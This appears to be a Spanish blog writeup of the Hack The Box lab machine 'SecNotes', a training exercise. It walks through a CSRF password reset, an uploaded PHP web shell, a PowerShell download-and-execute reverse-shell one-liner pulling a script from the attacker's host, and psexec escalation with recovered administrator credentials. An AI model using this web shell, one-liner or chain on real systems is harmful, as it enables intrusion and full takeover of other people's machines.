

pointedsec
if pentester.found == bug { make(pentester,states.happy) }
Hack The Box: SecNotes Writeup
Welcome to my detailed writeup of the medium difficulty machine “SecNotes” on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.
TCP Enumeration
$ rustscan -a 10.129.18.0 --ulimit 5000 -g
10.129.18.0 -> [80,445,8808]
$ nmap -p80,445,8808 -sCV 10.129.18.0 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 15:10 CEST
Nmap scan report for 10.129.18.0
Host is up (0.037s latency).
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp open microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open http Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
| http-methods:
|_ Potentially risky methods: TRACE
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb-security-mode:
| account_used: <blank>
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb-os-discovery:
| OS: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)
| OS CPE: cpe:/o:microsoft:windows_10::-
| Computer name: SECNOTES
| NetBIOS computer name: SECNOTES\x00
| Workgroup: HTB\x00
|_ System time: 2024-08-14T04:11:27-07:00
|_clock-skew: mean: 20m32s, deviation: 4h02m31s, median: -1h59m29s
| smb2-time:
| date: 2024-08-14T11:11:25
|_ start_date: N/A
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.61 seconds
UDP Enumeration
$ sudo nmap --top-ports 1500 10.129.18.0 -sU --min-rate 5000 -n -Pn -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 15:13 CEST
Nmap scan report for 10.129.18.0
Host is up.
All 1500 scanned ports on 10.129.18.0 are in ignored states.
Not shown: 1500 open|filtered udp ports (no-response)
Nmap done: 1 IP address (1 host up) scanned in 2.39 seconds
HTTP Enumeration
Hay pocos vectores de ataque y como por SMB no consigo nada..
$ smbclient -L \\10.129.18.0 -U '' -N
session setup failed: NT_STATUS_ACCESS_DENIED
$ smbmap -H 10.129.18.0 -u 'null' -p 'null'
[!] Authentication error on 10.129.18.0
Vamos a empezar con el puerto 80/TCP
Vemos un recurso login.php
$ whatweb http://10.129.18.0
http://10.129.18.0 [302 Found] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.129.18.0], Microsoft-IIS[10.0], PHP[7.2.7], RedirectLocation[login.php], X-Powered-By[PHP/7.2.7]
http://10.129.18.0/login.php [200 OK] Bootstrap[3.3.7], Country[RESERVED][ZZ], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.129.18.0], Microsoft-IIS[10.0], PHP[7.2.7], PasswordField[password], Title[Secure Notes - Login], X-Powered-By[PHP/7.2.7]
Con la siguiente pinta.

Si nos creamos una cuenta, podemos ver lo siguiente.

Encontramos un Reflected XSS en las notas ya que este se guarda en las notas del usuario.
En el campo de contacto podemos enviar un mensaje a tyler.

Si le mandamos una dirección URL, parece que tyler la abre..

Updating Tyler password | CSRF
Comprobando la funcionalidad para cambiar la contraseña, vemos que se envía una solicitud POST a change_pass.php

Pero si intentamos cambiar la solicitud a GET..

¡La credencial también se cambia!
A esto se le conoce como HTTP Method Confusion, y esto puede llevar a un CSRF.
Podemos ver que para cambiar la contrase√±a no hay ning√∫n token CSRF y además si recordamos, tyler abr√≠a los links que le adjuntamos en el formulario de contacto…
Le pasamos esta URL formulada para cambiar la contrase√±a de tyler a pointedsec…
Y podemos iniciar sesión como tyler

Encontramos lo que parece credenciales para acceder a un recurso compartido a nivel de red. 
Con netexec podemos comprobar si son válidas…
$ nxc smb 10.129.18.0 -u 'tyler' -p '92g!mA8BGjOirkL%OG*&'
SMB 10.129.18.0 445 SECNOTES [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB 10.129.18.0 445 SECNOTES [+] SECNOTES\tyler:92g!mA8BGjOirkL%OG*&
Foothold
Podemos ver los recursos compartidos a nivel de red a los que puede acceder este usuario y vemos que tiene permisos de lectura y escritura para new-site

Vemos algunos recursos típicos de un IIS.
Por el puerto 8808/TCP encontramos lo siguiente..

Vamos a probar a subir un archivo y ver si se ve reflejado en este servicio web.
$ echo "test" > test.txt
Y ahora con smbclient
smb: \> put test.txt
putting file test.txt as \test.txt (0,0 kb/s) (average 0,0 kb/s)
Y efectivamente, se ve reflejado.

Vamos a ver si se interpreta código PHP en este sitio web..
$ echo "<?php phpinfo(); ?>" > info.php
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/secnotes/content]
└──╼ [★]$ smbclient \\\\10.129.18.0\\new-site -U 'tyler%92g!mA8BGjOirkL%OG*&'
Try "help" to get a list of possible commands.
smb: \> put info.php
putting file info.php as \info.php (0,2 kb/s) (average 0,2 kb/s)
Y vemos que si, ahora solo quedaría subirnos una web shell.

Podemos comprobar que no hay ninguna disable_functions
Creamos una web shell sencilla…
<?php
echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?
La subimos…
smb: \> put shell.php
putting file shell.php as \shell.php (0,6 kb/s) (average 0,6 kb/s)
¡Y tenemos ejecución remota de comandos!

Ahora con el script Invoke-PowerShellTcp.ps1 de nishang vamos a ganar acceso a la máquina.
Nos copiamos el script y le añadimos esta línea a lo último.

Ahora servimos el script por el puerto 8081.
$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
Nos ponemos en escucha con netcat por el puerto 443.
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
Y ejecutamos este one-liner a través de la web shell.
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.85:8081/Invoke-PowerShellTcp.ps1') | powershell -noprofile -

Y ganamos acceso a la máquina víctima
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.85] from (UNKNOWN) [10.129.18.0] 59765
Windows PowerShell running as user SECNOTES$ on SECNOTES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\inetpub\new-site>whoami
secnotes\tyler
Y podemos leer la flag de usuario.
PS C:\Users\tyler\Desktop> type user.txt
e175f96d71f268b1...
Privilege Escalation
Según vemos la flag, nos llama la atención un acceso directo.
¿bash? Pero si estamos en Windows.
También podemos detectar un directorio Distros en la raíz del sistema.
PS C:\Distros> dir
Directory: C:\Distros
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 6/21/2018 5:59 PM Ubuntu
Podemos deducir que va a entrar en juego WSL (Windows Subsystem for Linux), una manera de poder tener tu sistema operativo Linux dentro de tu máquina Windows.
Entonces vamos a explorar los archivos de este subsistema ya que se tienen que guardar en alguna parte del disco duro, ¿no?
Buscando un poco en Google nos encontramos con alguien que se preguntó lo mismo hace muchos años. https://superuser.com/questions/1185033/what-is-the-home-directory-on-windows-subsystem-for-linux
Y con esta respuesta.

Y efectivamente, aquí se encuentra el subsistema linux.
PS C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs> dir
Directory:
C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs
Mode LastWriteTime Length Name
---- ------------- ------ ----
da---- 6/21/2018 6:03 PM bin
da---- 6/21/2018 6:00 PM boot
da---- 6/21/2018 6:00 PM dev
da---- 6/22/2018 3:00 AM etc
da---- 6/21/2018 6:00 PM home
da---- 6/21/2018 6:00 PM lib
da---- 6/21/2018 6:00 PM lib64
da---- 6/21/2018 6:00 PM media
da---- 6/21/2018 6:03 PM mnt
da---- 6/21/2018 6:00 PM opt
da---- 6/21/2018 6:00 PM proc
da---- 6/22/2018 2:44 PM root
da---- 6/21/2018 6:00 PM run
da---- 6/22/2018 2:57 AM sbin
da---- 6/21/2018 6:00 PM snap
da---- 6/21/2018 6:00 PM srv
da---- 6/21/2018 6:00 PM sys
da---- 6/22/2018 2:25 PM tmp
da---- 6/21/2018 6:02 PM usr
da---- 6/21/2018 6:03 PM var
-a---- 6/22/2018 2:25 PM 87944 init
Viendo el archivo /root/.bash_history encontramos una línea interesante.
PS C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root> type .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history
less .bash_history
exit
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
Parecen credenciales del administrador del sistema.
Las podemos comprobar con netexec y son válidas.
$ nxc smb 10.129.18.0 -u Administrator -p 'u6!4ZwgwOM#^OBf#Nwnh'
SMB 10.129.18.0 445 SECNOTES [*] Windows 10 Enterprise 17134 (name:SECNOTES) (domain:SECNOTES) (signing:False) (SMBv1:True)
SMB 10.129.18.0 445 SECNOTES [+] SECNOTES\Administrator:u6!4ZwgwOM#^OBf#Nwnh (Pwn3d!)
Para terminar, teniendo estas credenciales y con psexec podemos ganar una consola como nt authority\system.
$ impacket-psexec -target-ip 10.129.18.0 Administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.129.18.0
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Requesting shares on 10.129.18.0.....
[*] Found writable share ADMIN$
[*] Uploading file pNVSROjb.exe
[*] Opening SVCManager on 10.129.18.0.....
[*] Creating service vyBL on 10.129.18.0.....
[*] Starting service vyBL.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\WINDOWS\system32> whoami
nt authority\system
Podríamos leer la flag de root
C:\Users\Administrator\Desktop> type root.txt
79da3473ede54ef8...
¡Y ya estaría!
Happy Hacking! üöÄ